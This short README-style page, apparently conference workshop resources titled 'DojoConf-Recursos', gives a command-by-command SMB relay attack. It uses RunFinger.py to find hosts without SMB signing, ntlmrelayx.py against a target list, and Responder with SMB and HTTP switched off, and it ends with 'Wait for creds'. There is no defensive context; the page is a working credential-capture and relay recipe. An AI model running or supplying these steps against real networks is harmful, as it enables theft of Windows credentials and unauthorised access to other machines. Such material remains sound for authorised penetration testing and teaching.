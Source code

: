 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /var/log/ -name "error.log" -print
```

1. Identify network systems that do not require SMB message validation
    * Run python  **RunFinger.py** -i IP_Range to detect machine with SMB signing:disabled.
    * Configure Impacket’s NTLMrelayx to target those systems
    * echo "IP"  >> targets.txt
    * **ntlmrelayx.py** -tf targets.txt --smb2support
2. Disable SMB and HTTP response poisoning in Responder and launch
    * cd /usr/share/responder
    * gedit Responder.conf
3. Open the Responder.conf file and set the value of SMB and HTTP to Off
    * **Responder.py** -I eth0 -rdw
Wait for creds

